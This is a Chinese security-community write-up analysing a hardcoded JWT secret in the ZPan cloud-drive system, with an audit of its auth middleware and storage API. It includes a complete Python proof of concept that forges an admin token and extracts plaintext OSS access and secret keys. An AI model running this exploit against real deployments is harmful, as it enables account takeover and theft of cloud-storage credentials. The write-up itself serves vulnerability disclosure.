



# ZPan 硬编码到OSS凭证泄漏漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/18668  
> **文章ID**: 18668

---

## 0x01 应用

### 1.1 应用分析

<https://github.com/saltbo/zpan>

zpan是一个基于云存储的网盘系统，用于自建私人网盘或企业网盘。

ZPan致力于打造一款不限速的网盘系统，因此我们采用客户端直连云存储的方式进行设计。

目前ZPan支持所有兼容S3协议的云存储平台，您可以选用您熟悉的平台来驱动ZPan。

特点：

* 完全不受服务器带宽限制
* 支持所有兼容S3协议的云存储
* 支持文件及文件夹管理
* 支持文件及文件夹分享（未登录可访问）
* 支持文档预览及音视频播放
* 支持多用户存储空间控制
* 支持多语言



## 0x02 漏洞

### 2.1 漏洞介绍

zpan在 <= v1.6.5 版本中，存在硬编码漏洞，攻击者可通过该漏洞登录任意用户的账号，进而获取到oss key 和 secret。从而造成数据泄漏风险

### 2.2 漏洞复现

poc：

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import argparse
import json
import jwt
import requests
from datetime import datetime, timedelta

def generate_jwt_token():
    """Generate JWT token"""
    # Get current timestamp
    current_time = int(datetime.now().timestamp())
    
    payload = {
        "aud": "zplatUsers",
        "exp": current_time + 3600,  # Expires in 1 hour
        "iat": current_time,          # Issued at current time
        "iss": "zplat",
        "nbf": current_time,          # Not before current time
        "sub": "1",
        "roles": [
            "admin"
        ]
    }
    
    secret = "123"
    token = jwt.encode(payload, secret, algorithm='HS512')
    return token

def get_storages_list(host, token):
    """Get storage list"""
    url = f"http://{host}/api/storages"
    headers = {
        "Authorization": f"Bearer {token}",
        "Content-Type": "application/json"
    }
    
    try:
        response = requests.get(url, headers=headers, timeout=10)
        response.raise_for_status()
        return response.json()
    except requests.exceptions.RequestException as e:
        print(f"Failed to request storage list: {e}")
        return None

def get_storage_details(host, token, storage_id):
    """Get storage details"""
    url = f"http://{host}/api/storages/{storage_id}"
    headers = {
        "Authorization": f"Bearer {token}",
        "Content-Type": "application/json"
    }
    
    try:
        response = requests.get(url, headers=headers, timeout=10)
        response.raise_for_status()
        return response.json()
    except requests.exceptions.RequestException as e:
        print(f"Failed to request storage details (ID: {storage_id}): {e}")
        return None

def extract_storage_info(storage_data):
    """Extract storage information"""
    if not storage_data or 'data' not in storage_data:
        return None
    
    data = storage_data['data']
    return {
        'bucket': data.get('bucket', ''),
        'endpoint': data.get('endpoint', ''),
        'access_key': data.get('access_key', ''),
        'secret_key': data.get('secret_key', '')
    }

def main():
    parser = argparse.ArgumentParser(description='ZPan Storage Information Extraction POC')
    parser.add_argument('-u', '--url', required=True, help='Target host address (e.g., example.com)')
    parser.add_argument('-l', '--list', action='store_true', help='List storage IDs only')
    
    args = parser.parse_args()
    
    # Generate JWT token
    print("Generating JWT token...")
    token = generate_jwt_token()
    print(f"JWT Token: {token}")
    print("-" * 50)
    
    # Get storage list
    print("Getting storage list...")
    storages_response = get_storages_list(args.url, token)
    
    if not storages_response:
        print("Failed to get storage list")
        return
    
    print("Storage list response:")
    print(json.dumps(storages_response, indent=2, ensure_ascii=False))
    print("-" * 50)
    
    # Extract storage IDs
    storage_ids = []
    if storages_response.get('code') == 0 and 'data' in storages_response:
        data = storages_response['data']
        if 'list' in data:
            storage_ids = [item['id'] for item in data['list'] if 'id' in item]
    
    if not storage_ids:
        print("No storage IDs found")
        return
    
    print(f"Found {len(storage_ids)} storage(s):")
    for storage_id in storage_ids:
        print(f"  - Storage ID: {storage_id}")
    
    if args.list:
        print("List mode only, not getting detailed information")
        return
    
    print("-" * 50)
    
    # Get detailed information for each storage
    print("Getting storage detailed information...")
    for storage_id in storage_ids:
        print(f"
Getting detailed information for storage {storage_id}...")
        storage_details = get_storage_details(args.url, token, storage_id)
        
        if storage_details:
            print("Storage details response:")
            print(json.dumps(storage_details, indent=2, ensure_ascii=False))
            
            # Extract key information
            storage_info = extract_storage_info(storage_details)
            if storage_info:
                print(f"
Key information for storage {storage_id}:")
                print(f"  Bucket: {storage_info['bucket']}")
                print(f"  Endpoint: {storage_info['endpoint']}")
                print(f"  Access Key: {storage_info['access_key']}")
                print(f"  Secret Key: {storage_info['secret_key']}")
            else:
                print(f"Failed to extract information for storage {storage_id}")
        else:
            print(f"Failed to get detailed information for storage {storage_id}")

if __name__ == "__main__":
    main()
```

```
python3 zpan_poc.py -u xxx:8222
```



## 0x03 漏洞分析

### 3.1 漏洞分析

### 3.2 漏洞位置

```
// internal/app/service/token.go:15-18
func NewToken() *Token {
    jwtutil.Init("123")  // 硬编码的JWT密钥
    return &Token{}
}
```

一开始原本关注点在如何绕过登录授权上的，不过后面看到jwtutil.Init("123")，这段代码，这不妥妥的一个硬编码漏洞

### 3.3 登录授权机制

首先分析一下该程序的登录授权逻辑

```
用户请求 → 中间件拦截 → Token验证 → RBAC权限检查 → 业务处理
```

#### 3.3.1 认证中间件

```
// internal/pkg/middleware/auth.go
func LoginAuthWithRoles() gin.HandlerFunc {
    // 1. 加载RBAC规则，从auth_rbac.yml中可以看到定义了特定的角色只能访问特定的接口
	rules := make(meta.Rules, 0)
	if err := yaml.Unmarshal(embedRules, &rules); err != nil {
		log.Fatalln(err)
	}

    // 2. 创建RBAC控制器
	ctrl, err := grbac.New(grbac.WithRules(rules))
	if err != nil {
		log.Fatalln(err)
	}

	return func(c *gin.Context) {
        // 3. 提取用户角色
		rc, err := token2Roles(c)
		if err != nil {
			ginutil.JSONUnauthorized(c, err)
			return
		}

        // 4. 检查权限
		state, err := ctrl.IsRequestGranted(c.Request, rc.Roles)
		if err != nil {
			ginutil.JSONServerError(c, err)
			return
		}

        // 5. 匿名用户如果不在可用api中，则拒绝
		if rc.Subject == "anonymous" && !state.IsGranted() {
			ginutil.JSONUnauthorized(c, fmt.Errorf("access deny, should login"))
			return
		}

		if !state.IsGranted() {
			ginutil.JSONForbidden(c, fmt.Errorf("access deny"))
			return
		}

        // 5. 设置用户信息
		authed.UidSet(c, rc.Uid())
		authed.RoleSet(c, rc.Roles)
	}
}
```

```
# internal/pkg/middleware/auth_rbac.yml
# 默认注册用户才能访问
- id: 0
  host: "*"
  path: "**"
  method: "*"
  authorized_roles:
    - "admin"
    - "member"

# 站点信息允许匿名访问
- id: 10
  host: "*"
  path: "/api/system/options/core.site"
  method: "GET"
  allow_anyone: true

# 登录接口允许任何人访问
- id: 11
  host: "*"
  path: "/api/tokens"
  method: "{POST,DELETE}"
  allow_anyone: true
# 注册接口允许任何人访问
- id: 12
  host: "*"
  path: "/api/users"
  method: "{POST,PATCH}"
  allow_anyone: true
# 分享接口允许匿名访问
- id: 13
  host: "*"
  path: "/api/shares/**"
  method: "GET"
  allow_anyone: true

# 分享提取接口允许匿名访问
- id: 14
  host: "*"
  path: "/api/shares/*/token"
  method: "POST"
  allow_anyone: true

# 下载接口允许匿名访问
- id: 15
  host: "*"
  path: "/api/matters/*/link"
  method: "GET"
  allow_anyone: true


# 以下规则限制只能由管理员请求
- id: 101
  host: "*"
  path: "/api/storages"
  method: "POST"
  authorized_roles:
    - "admin"

- id: 102
  host: "*"
  path: "/api/storages/**"
  method: "{PUT,PATCH,DELETE}"
  authorized_roles:
    - "admin"

- id: 103
  host: "*"
  path: "/api/users"
  method: "GET"
  authorized_roles:
    - "admin"

- id: 104
  host: "*"
  path: "/api/users/**"
  method: "{PUT,DELETE}"
  authorized_roles:
    - "admin"

- id: 105
  host: "*"
  path: "/api/system/options/*"
  method: "PUT"
  authorized_roles:
    - "admin"

- id: 106
  host: "*"
  path: "/api/system/options/core.email"
  method: "GET"
  authorized_roles:
    - "admin"
```

#### 3.3.2 Token处理逻辑

```
func token2Roles(c *gin.Context) (*service.RoleClaims, error) {
    const basicPrefix = "Basic "
	const BearerPrefix = "Bearer "
    // 支持多种认证方式，zpan可以通过cookie的方式，带上z-token进行访问，或者通过header头的Authorization进行访问
    cookieAuth := authed.TokenCookieGet(c)           // Cookie认证
    headerAuth := c.GetHeader("Authorization")        // Header认证
    
    // 匿名用户处理，如果cookie为空，header头也为空，则是匿名用户
    if (cookieAuth == "" && headerAuth == "") || strings.HasPrefix(headerAuth, basicPrefix) {
        return service.NewRoleClaims("anonymous", 3600, []string{"guest"}), nil
    }
    
    // Bearer Token验证
    authToken := strings.TrimPrefix(headerAuth, BearerPrefix)
    if authToken == "" {
        authToken = cookieAuth
    }
    
    return service.NewToken().Verify(authToken)  // 使用硬编码密钥验证
}
```

### 3.4 JWT Token结构

```
type RoleClaims struct {
    jwt.StandardClaims
    Roles []string `json:"roles"`
}

func NewRoleClaims(subject string, ttl int, roles []string) *RoleClaims {
    return &RoleClaims{
        StandardClaims: jwt.StandardClaims{
            Issuer:    "zplat",
            Audience:  "zplatUsers", 
            ExpiresAt: timeNow.Add(time.Duration(ttl) * time.Second).Unix(),
            IssuedAt:  timeNow.Unix(),
            NotBefore: timeNow.Unix(),
            Subject:   subject,  // 用户ID
        },
        Roles: roles,  // 用户角色
    }
}
```

### 3.5 获取OSS key和secret

只登录系统，远远达不到我们想要的效果，由于该系统是采用客户端直连云存储的方式作为网盘使用的，所以我们的目标是拿到OSS key和secret，一开始我通过访问 /api/storages获取key，发现使用\*号打码了



于是开始新一轮的代码审计

根据RBAC规则，这两个接口都需要进行管理员访问，不过下面的这个接口还能用GET请求访问，当GET请求访问时，则不会打码，具体分析如下：

```
# 创建存储 - 仅管理员
- id: 101
  path: "/api/storages"
  method: "POST"
  authorized_roles: ["admin"]

# 更新/删除存储 - 仅管理员  
- id: 102
  path: "/api/storages/**"
  method: "{PUT,PATCH,DELETE}"
  authorized_roles: ["admin"]
```

#### 3.5.1 接口详细分析

```
// internal/app/api/storage.go
// 路由定义
func (rs *StorageResource) Register(router *gin.RouterGroup) {
    // 这里定义了GET请求
	router.GET("/storages/:id", rs.find)
	router.GET("/storages", rs.findAll)
	router.POST("/storages", rs.create)
	router.PUT("/storages/:id", rs.update)
	router.DELETE("/storages/:id", rs.delete)
}
```

* GET /api/storages - 获取存储列表

* 请求参数

```
// internal/pkg/bind/storage.go
StorageQuery struct {
    QueryPage        // 分页参数
    Name string      // 存储名称（可选）
}
```

* 处理逻辑

```
// internal/app/api/storage.go
func (rs *StorageResource) findAll(c *gin.Context) {
    // 1. 绑定查询参数
    p := new(bind.StorageQuery)
    if err := c.Bind(p); err != nil {
        ginutil.JSONBadRequest(c, err)
        return
    }

    // 2. 查询存储列表
    list, total, err := rs.storageRepo.FindAll(c, &repo.StorageFindOptions{
        Limit: p.Limit, 
        Offset: p.Offset
    })
    if err != nil {
        ginutil.JSONServerError(c, err)
        return
    }

    // 3. 隐藏敏感信息
    lo.Map(list, func(item *entity.Storage, index int) *entity.Storage {
        item.SecretKey = item.SKAsterisk()  // 调用SKAsterisk，将SecretKey替换为星号
        return item
    })

    // 4. 返回结果
    ginutil.JSONList(c, list, total)
}
```

```
// internal/app/entity/storage.go
func (s *Storage) SKAsterisk() (sk string) {
	for range s.SecretKey {
		sk += "*"
	}
	return
}
```

* GET /api/storages/{id} - 获取单个存储

* 请求参数

* 存储ID（路径参数）

* 处理逻辑

```
// internal/app/api/storage.go
func (rs *StorageResource) find(c *gin.Context) {
    // 1. 获取存储ID
    id := ginutil.ParamInt64(c, "id")
    
    // 2. 查询单个存储
    ret, err := rs.storageRepo.Find(c, id)
    if err != nil {
        ginutil.JSONServerError(c, err)
        return
    }

    // 3. 返回完整信息（包括真实SecretKey）
    // 直接返回结果，没有经过 SKAsterisk
    ginutil.JSONData(c, ret)
}
```

最终，我们发现可以通过id获取明文key。
